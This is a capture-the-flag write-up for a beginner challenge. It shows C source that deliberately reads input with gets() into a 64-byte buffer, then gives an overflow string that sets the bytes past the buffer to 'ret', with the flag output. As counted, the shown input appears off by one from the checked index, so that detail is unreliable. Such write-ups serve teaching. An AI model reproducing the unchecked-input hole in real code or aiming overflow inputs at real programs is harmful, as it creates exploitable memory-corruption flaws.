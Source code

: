 # Katipwnan Bomb

## Problem
### chal.c contents:
```C
#include <stdio.h>

void get_flag() {
    FILE *f = fopen("./flag.txt", "r");
    char buf[200];
    fgets(buf, 200, f);
    printf("%s\n", buf);
    fclose(f);

    return;
}

int main(void) {
    setbuf(stdout, NULL);

    puts("Bomb is 64 in size and 'ret' is the ending command to fire, also this is not valorant...");
    printf("Plant the spike: ");
    char buf[64];
    gets(buf);

    if (buf[64] == 'r' && buf[65] == 'e' && buf[66] == 't') {
        printf("All right!\nHere is your flag: ");
        get_flag();
    } else {
        printf("Try again!\n");
    }
    
    return 0;
}
```
## Solution
The goal is to bypass the program by setting the values at the addresses after the bomb's location to ret. To do so, we need to fill the entire bomb, then the extra characters will the values set to the addresses after the bomb. So I inputed this in the program to get the flag:

```txt
012345678901234567890123456789012345678901234567890123456789012ret
```

Which outputs:

```txt
All right!
Here is your flag: CITU{k4tipwn4n_0v3rfl0w_b0mb_4ctiv4t3d_BO000000M!!}
```

[Home](../..)